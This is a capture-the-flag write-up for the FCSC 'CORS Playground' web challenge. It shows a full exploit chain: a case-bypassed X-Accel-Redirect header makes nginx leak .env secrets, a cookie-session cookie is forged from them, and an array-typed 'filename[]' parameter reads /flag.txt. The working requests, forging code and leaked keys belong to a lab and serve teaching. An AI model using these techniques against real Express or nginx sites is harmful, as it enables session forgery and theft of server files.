 ```yaml
---
title: CORS Playground
author: Adrian Junge
description: Perplexed by CORS? Our CORS Playground is your ideal solution. This intuitive and sleek platform lets you effortlessly learn and experiment with CORS policies. Perfect for unraveling the complexities of secure cross-origin requests. Dive in and clarify your CORS concepts!
categories:
    - Web
year: 2024
---
```


# TL;DR
    **- Challenge Setup:** **Node.js** server with **nginx** allows setting arbitrary response headers
    **- Key Discoveries:** **Nginx** processes `X-Accel-Redirect` header to gain arbitrary file read in workdir e.g. of `.env`
    **- Check Bypass:** Bypassed X- header restriction using case insensitivity (x-Accel-Redirect)
    **- Cookie Forgery:** Forged cookies with leaked server secrets to impersonate the internal user using session keys
    **- Check Bypass:** Bypassed filename `/` check by sending the filename as an array: `filename[]=/flag.txt`

# 1. Introduction<a name="introduction"></a>
The description might be a bit misleading at the beginning:

```
Perplexed by CORS?
Our CORS Playground is your ideal solution.
This intuitive and sleek platform lets you effortlessly learn and experiment with CORS policies.
Perfect for unraveling the complexities of secure cross-origin requests.
Dive in and clarify your CORS concepts!
```

Although **CORS** is both contained in the title and the description, this challenge is nothing about exploitation of **CORS** misconfigurations.

# 2. Reconnaissance<a name="reconnaissance"></a>
The challenge is about a **node.js** server being deployed together with **nginx**. By starting playing around with the application we are able to add any kinds of CORS-headers to the server response via the `/cors` endpoint appending the headers as url parameters:

![overview](ctf/writeups/fcsc/corsplayground/corsplayground.png "overview")

After having a look into the source code, this is not only about CORS-headers. You can set *any* kind of header for your request and the server response:

```javascript
app.all("/cors", (req, res) => {
    for (const [key, value] of Object.entries(req.query)) {
        if (key.includes("X-")) delete req.query[key]
    }
    res.set(req.query);
    if (req.session.user === "internal" && !req.query.filename?.includes("/")) {
        res.sendfile(req.query.filename || "app.js");
    } else {
        res.send("Hello World!");
    }
});
```

Moreover there are some constraints e.g. we are not allowed to use custom headers starting with `X-`. Having set an appropriate cookie with `session.user === "internal"` allows us to retrieve any file we wish - sounds highly interesting. Unfortunately we are also not allowed to have a `/` in our path. So it seems like we are not allowed to use absolute paths and are restricted to the directory `/usr/app` the application is running in. Having a look in the docker setup we see the `flag.txt` got some interesting permissions set:

```dockerfile
FROM nginx:alpine3.18-slim
WORKDIR /usr/app
COPY --chown=1337:1337 --chmod=400 ./src/nginx/nginx.conf /etc/nginx/nginx.conf
COPY --chown=1337:1337 --chmod=500 ./src/app/ /usr/app/
COPY --chown=1337:1337 --chmod=500 ./src/start.sh /start.sh
COPY --chown=root:root --chmod=444 ./src/flag.txt /flag.txt
RUN apk add --update --no-cache            \
    nodejs~=18                             \
    npm~=9.6                            && \
    npm install
USER 1337:1337
CMD ["/bin/sh", "/start.sh"]
```

Anyone is allowed to read the `/flag.txt` because of the `444` rights. But how can we even get a cookie? The server secrets for generating cookies via the `cookie-session` seem to be random, so to forge any cookies we would have to forge a valid signature and thus break the underlying cryptography.

# 3. Vulnerability Description<a name="vulnerability description"></a>
Setting arbitrary headers in the server responses already seems very phishy. At first this seems kina useless. The headers are not processed any further but only appended to the server response. But we still got **nginx** sitting between client and server, so maybe some headers are still processed by **nginx**? There is an interesting header called `X-Accel-Redirect`. Usually this header is used to indicate that a response should be redirected. But in our case we can abuse this header to serve arbitrary files via **nginx**.

# 4. Exploitation<a name="exploitation"></a>
The working directory of **nginx** is `/usr/app`. But before using the `X-Accel-Redirect` header we need to bypass the `key.includes("X-")` check preventing us from using custom headers. Luckily nginx is not case sensitive. Unfortunately **nginx** won't serve us any files that are not contained in `/use/app/*`. So we can't simply request the `../../flag.txt` via e.g. a path traversal. By requesting `GET /cors?x-Accel-Redirect=.env` we get access to the server secrets:

```http
HTTP/1.1 200 OK
Server: nginx/1.26.1
Date: Mon, 03 Feb 2025 21:48:30 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 150
Last-Modified: Mon, 08 Apr 2024 13:06:56 GMT
Connection: keep-alive
ETag: "6613ebf0-96"
Accept-Ranges: bytes

PORT=3000
KEY1=244f6308a26ad41dd8ebacf617282a7f3dc1cb6fec5fa7a03f1a907857295620
KEY2=c3f8b13c86454198e624813a8d480dd2a43ed5154e5b43f33eedfe962831bbf2
```

Now that we have the server secrets we can start forging cookies. For this I used a small **node.js** server generating the cookies for me:

```javascript
const express = require("express");
const cookieSession = require("cookie-session");
const app  = express();

const KEY1="244f6308a26ad41dd8ebacf617282a7f3dc1cb6fec5fa7a03f1a907857295620"
const KEY2="c3f8b13c86454198e624813a8d480dd2a43ed5154e5b43f33eedfe962831bbf2"

app.use(cookieSession({
    name: "session",
    keys: [KEY1, KEY2]
}));

app.get('/set-cookie', (req, res) => {
    req.session.user = 'internal';
    res.send('Cookie set and signed');
});

app.listen(3000, () => {
    console.log('Server running @ http://localhost:3000');
});
```

So by requesting `/set-cookie` we get:

```http
HTTP/1.1 304 Not Modified
X-Powered-By: Express
Set-Cookie: session=eyJ1c2VyIjoiaW50ZXJuYWwifQ==; path=/; httponly
Set-Cookie: session.sig=cQxHOJTjYH-ApCawTRwrQoXd9HA; path=/; httponly
ETag: W/"1b-eYZazkp0W5H4AV0mNeEdq7v8u6k"
Date: Mon, 03 Feb 2025 21:50:33 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

So we got our new cookie header `Cookie: session=eyJ1c2VyIjoiaW50ZXJuYWwifQ==; session.sig=cQxHOJTjYH-ApCawTRwrQoXd9HA` ready to exploit the application. Now we are able to request (almost) any files we want. For example `package.json`. The last obstacle is about bypassing the `includes("/")` check. In these kind of situations it is always worth it thinking about which assumptions the developer made when implementing such kind of checks. In this case the assumption is definitely that the `filename` url parameter is parsed as a string. What if we somehow manage to make this parameter something else than a string? Then the `includes` function would have a completely different meaning. Maybe you have already seen something like `GET /submit?selectedOptions[]=Option1&selectedOptions[]=Option3`. This is used when you are dealing with some **multi select fields**. **Express** will handle these kind of url parameters as arrays. Thus `includes` will have a different meaning than intended, leading to a bypass for this check. So by requesting `GET /cors?filename[]=/flag.txt` we get our well beloved flag:

```http
HTTP/1.1 200 OK
Server: nginx/1.26.1
Date: Mon, 03 Feb 2025 21:52:53 GMT
Content-Type: text/plain; charset=UTF-8
Content-Length: 71
Connection: keep-alive
X-Powered-By: Express
filename: /flag.txt
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Mon, 08 Apr 2024 13:06:56 GMT
ETag: W/"47-18ebdd1a180"

FCSC{692ee58458f81decea191104293b2cd00e7d96f287c0f693f9737fbb2bcf5f46}
```

So interesting enough the `res.sendfile` in the server code also accepts arrays.

# 5. Mitigation<a name="mitigation"></a>
The vulnerability is inherent to the design. The client should never be able to set arbitray response headers for the server. Moreover the checks trying to prevent exploitation are too lazy. In general using `includes` in security check is almost never a good idea because the match is too broad leading to bypasses.

# 6. Flag<a name="flag"></a>
FCSC{692ee58458f81decea191104293b2cd00e7d96f287c0f693f9737fbb2bcf5f46}
